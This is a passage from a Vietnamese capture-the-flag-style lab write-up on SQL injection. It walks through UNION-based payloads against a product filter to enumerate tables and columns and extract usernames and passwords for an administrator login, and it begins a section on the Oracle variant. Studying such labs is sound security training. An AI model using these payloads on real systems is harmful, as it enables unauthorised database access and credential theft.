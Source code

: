 > Truy cập bài lab, thấy có phần lọc sản phẩm theo danh mục:![image](https://hackmd.io/_uploads/ByYfpMBgC.png)

>Thử xem phần này có bị lỗi SQLi không. Thử với payload:
> `' OR 1=1--` 
> ![image](https://hackmd.io/_uploads/Hkh4pMSlR.png)

> Xác định được chỗ này có lỗi SQLi, tìm số cột dữ liệu trả về trong truy vấn, sử dụng payload
> `' UNION SELECT null--`: ![image](https://hackmd.io/_uploads/SJ0SyXBlC.png)

>Tiếp tục tăng số cột lên 2 và có phản hồi trả về: `' UNION SELECT null,null--` ![image](https://hackmd.io/_uploads/HJ6_ymBeR.png)

>Xác định được dữ liệu trả về có 2 cột, từ đó ta sẽ viết payload để truy xuất tên của tất cả các bảng trong database: `' UNION SELECT table_name,null FROM information_schema.columns--` ![image](https://hackmd.io/_uploads/SJW3xmHx0.png)

> Ctrl F để tìm xem những bảng nào có khả năng chứa thông tin của người dùng: ![image](https://hackmd.io/_uploads/SJfZZQrxR.png)

>Tìm được bảng `pg_user` có khả năng là đúng, ta sửa payload để có thể truy xuất ra tên của các cột trong bảng này:
> **`' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'pg_user'--`**
![image](https://hackmd.io/_uploads/rkSjZ7BxC.png)


> Trong bảng **pg_user** có chứa cột **usename** và **passwd** là cột chúng ta đang tìm kiếm. Truy xuất thông tin hai cột này, payload: **`/filter?category=' UNION SELECT usename,passwd FROM pg_user--`**
![image](https://hackmd.io/_uploads/HkiNGXHgA.png)


> Trong này không tồn tại thông tin của admin mà ta cần, ta lại thử tiếp với bảng khác: ![image](https://hackmd.io/_uploads/ByvkQmrl0.png)

>Trong bảng `users_qcucis` này chứa 2 cột là `username_emzobw` và `password_pmrzfw`, thử xem bên trong 2 cột này chứa gì, payload: 
>`' UNION SELECT username_emzobw,password_pmrzfw FROM users_qcucis--`

>Và trong bảng này đã chứa chính xác thông tin ta cần tìm: ![image](https://hackmd.io/_uploads/SkO3mXrlA.png)

>Cuối cùng là đăng nhập vào `administrator` và solved bài lab: ![image](https://hackmd.io/_uploads/HJJeVXBl0.png)


# **10. Lab: SQL injection attack, listing the database contents on Oracle**
>Đề bài cho biết bài lab này chứa lỗ hổng SQLi trong bộ lọc danh mục sản phẩm. Trang web có chứa chức năng đăng nhập, và trong cơ sở dữ liệu Oracle có 1 bảng chứa `username` và `password`. Nhiệm vụ của ta là tìm được tên của bảng và tìm được số cột của bảng ấy, sau đó lấy ra được toàn bộ username và password trong bảng. Cuối cùng là đăng nhập vào tài khoản của `administrator` để hoàn thành bài lab:
![image](https://hackmd.io/_uploads/rkRPEXrxR.png)
